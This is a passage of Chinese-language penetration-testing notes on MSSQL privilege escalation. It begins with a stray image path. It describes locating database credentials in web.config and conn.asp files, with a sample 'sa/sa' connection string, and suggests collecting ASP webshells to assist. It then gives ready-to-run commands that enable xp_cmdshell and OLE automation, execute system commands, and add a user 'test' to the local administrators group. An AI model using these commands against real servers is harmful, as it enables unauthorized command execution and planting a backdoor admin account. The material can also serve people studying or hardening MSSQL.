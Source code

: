 登录名与数据库用户在服务器级别是一对多的

登录名和用户名可以起一样的名字；

登录后也不一定有权限操作数据库

服务器角色不容许更改

#### 4.1 数据库账号/密码的寻找

类似于Mysql账号的寻找方式，一般先寻找网站目录下的配置文件，如：conn.asp(x)/web.config 

server=localhost;UID=sa;PWD=sa;database=Northwind;Provider=SQLOLEDB

搜集一些asp(x)大马，辅助寻找

#### 4.2利用xp_cmdshell提权

（1）xp_cmdshell的开启
 xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重修开启它。	

```
exec sp_configure 'show advanced options', 1;reconfigure;	
exec sp_configure 'xp_cmdshell', 1;reconfigure;
```

（2）xp_cmdshell执行命令

```
exec master.dbo.xp_cmdshell 'ver'	
exec master.dbo.xp_cmdshell 'ipconfig'
```

（3）xp_cmdshell的关闭

```
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell', 0;reconfigure
```

（4）利用xp_cmdshell提权

```
exec master..xp_cmdshell 'net user test test /add'    添加用户test，密码test
exec master..xp_cmdshell 'net localgroup administrators test /add'   添加test用户到管理员组
```

#### 4.3利用SP_OACreate组件

当xp_cmdshell 删除或出错情况下，还可以使用`SP_OACreate`

（1）开启组件

```
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',1;reconfigure;
```

（2）关闭组件

```
exec sp_configure 'show advanced options',1;reconfigure;
exec sp_configure 'ole automation procedures',0;reconfigure;
exec sp_configure 'show advanced options',0;reconfigure;
```
